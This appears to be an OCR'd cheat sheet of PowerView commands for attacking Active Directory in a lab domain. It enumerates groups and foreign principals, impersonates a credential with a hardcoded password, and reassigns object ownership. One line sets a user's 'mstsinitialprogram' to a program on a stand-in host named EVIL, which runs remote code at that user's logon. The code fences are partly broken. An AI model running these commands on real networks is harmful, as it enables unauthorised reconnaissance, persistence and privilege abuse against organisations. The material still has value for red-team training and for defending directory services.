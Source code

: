 ```powershell
Get-DomainGroup -GroupScope NotGlobal -Properties name

```
# enumerate all foreign users in the global catalog, and query the specified domain localgroups for their memberships
```powershell
#   query the global catalog for foreign security principals with domain-based SIDs, and extract out all distinguishednames

$ForeignUsers = Get-DomainObject -Properties objectsid,distinguishedname -SearchBase "GC://testlab.local" -LDAPFilter '(objectclass=foreignSecurityPrincipal)' | ? {$_.objectsid -match '^S-1-5-.*-[1-9]\d{2,}$'} | Select-Object -ExpandProperty distinguishedname
$Domains = @{}
$ForeignMemberships = ForEach($ForeignUser in $ForeignUsers) {
    ```
    # extract the domain the foreign user was added to
    $ForeignUserDomain = $ForeignUser.SubString($ForeignUser.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    ```
    # check if we've already enumerated this domain
    if (-not $Domains[$ForeignUserDomain]) {
        $Domains[$ForeignUserDomain] = $True
        ```
        # enumerate all domain local groups from the given domain that have membership set with our foreignSecurityPrincipal set
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl

```
# if running in -sta mode, impersonate another credential a la "runas /netonly"
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```
# ... action
```powershell
Invoke-RevertToSelf

```
# enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer
```powershell
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier
# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

```
# Set the owner of 'dfm' in the current domain to 'harmj0y'
```powershell
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```